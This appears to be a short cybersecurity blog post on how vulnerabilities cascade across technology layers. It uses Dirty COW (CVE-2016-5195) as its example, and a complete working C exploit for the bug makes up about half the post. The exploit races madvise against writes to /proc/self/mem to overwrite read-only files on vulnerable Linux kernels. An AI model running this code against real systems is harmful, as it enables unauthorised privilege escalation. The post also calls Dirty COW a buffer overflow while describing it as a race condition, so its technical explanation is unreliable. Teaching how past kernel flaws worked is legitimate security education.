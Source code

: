 ```yaml
---
title: Chain effect of vulnerabilities
date: 2024-11-23 10H:21:00 -0300
categories: [Cybersecurity, Vulnerabilities]
tags: [cybersecurity, vulnerabilities, CVE, devsecops]
author: 0
description:
image:
  path: https://upload.wikimedia.org/wikipedia/commons/7/73/Logo_nmap.png?20230731104508
  alt: Picture
---
```


# Chain effect of vulnerabilities
The different implementation layers of digital technologies create dependencies that can sometimes lead to security failures with a "chain effect," thereby impacting the underlying technologies.

## Real-world Example: CVE-2016-5195 (Dirty COW)
- Reference: [Nist: CVE-2016-5195](https://nvd.nist.gov/vuln/detail/cve-2016-5195)
One of the most infamous buffer overflow vulnerabilities in the Linux kernel is CVE-2016-5195, also known as Dirty COW. This vulnerability allowed attackers to gain write access to read-only memory mappings, leading to privilege escalation. The issue was due to a race condition in the kernel's memory subsystem, which could be exploited to overwrite data in memory.

The exploit for Dirty COW was relatively simple and could be executed with a few lines of code, making it a significant threat. The vulnerability had existed in the Linux kernel for nine years before it was discovered and patched.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <fcntl.h>
#include <sys/mman.h>
#include <pthread.h>
#include <unistd.h>

void *map;
int f;
struct stat st;
char *name;

void *madviseThread(void *arg) {
  int i;
  for (i = 0; i < 1000000; i++)
    madvise(map, 100, MADV_DONTNEED);
  return NULL;
}

void *procselfmemThread(void *arg) {
  int f = open("/proc/self/mem", O_RDWR);
  int i;
  for (i = 0; i < 1000000; i++) {
    lseek(f, (uintptr_t) map, SEEK_SET);
    write(f, name, strlen(name));
  }
  return NULL;
}

int main(int argc, char *argv[]) {
  pthread_t pth1, pth2;
  f = open(argv[1], O_RDONLY);
  fstat(f, &st);
  name = argv[2];
  map = mmap(NULL, st.st_size, PROT_READ, MAP_PRIVATE, f, 0);
  pthread_create(&pth1, NULL, madviseThread, NULL);
  pthread_create(&pth2, NULL, procselfmemThread, NULL);
  pthread_join(pth1, NULL);
  pthread_join(pth2, NULL);
  return 0;
}
```

This example demonstrates how a buffer overflow vulnerability can lead to severe security incidents, emphasizing the importance of secure coding practices and regular security audits as [Secutiry Controls in DevOps and Pipeline](./2024-11-23-Preventive-Security-Controls)